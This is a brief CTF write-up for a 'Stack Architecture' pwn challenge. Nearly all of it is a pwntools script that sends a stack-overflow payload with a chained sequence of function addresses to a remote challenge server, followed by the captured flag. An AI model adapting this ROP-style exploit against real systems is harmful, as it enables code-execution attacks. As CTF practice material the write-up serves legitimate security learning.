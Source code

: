 # **Stack Architecture - PWN CTF Challenge**

### ***Exploitation***
---


```js
from pwn import *

r = remote('45.122.249.68', 10018)

func1 = 0x804929e
func1_argv = 0x20010508

func2 = 0x80492fe
func2_var = 0x08052001

win = 0x8049216
pop_ret = 0x08049022


payload = b'a'*4 + b'I\'m sorry, don\'t leave me, I want you here with me ~~' + b'\x00' + b'a'*26
payload += p32(func2_var)
payload += p32(func1)*2
payload += p32(pop_ret)
payload += p32(func1_argv)
payload += p32(func2)*2
payload += p32(win)

r.sendline(payload)
r.interactive()
```

![flag](images/flag.png)

> **FLAG: Wanna.One{neu_ban_chinh_phuc_duoc_chinh_minh_ban_co_the_chinh_phuc_duoc_the_gioi}**





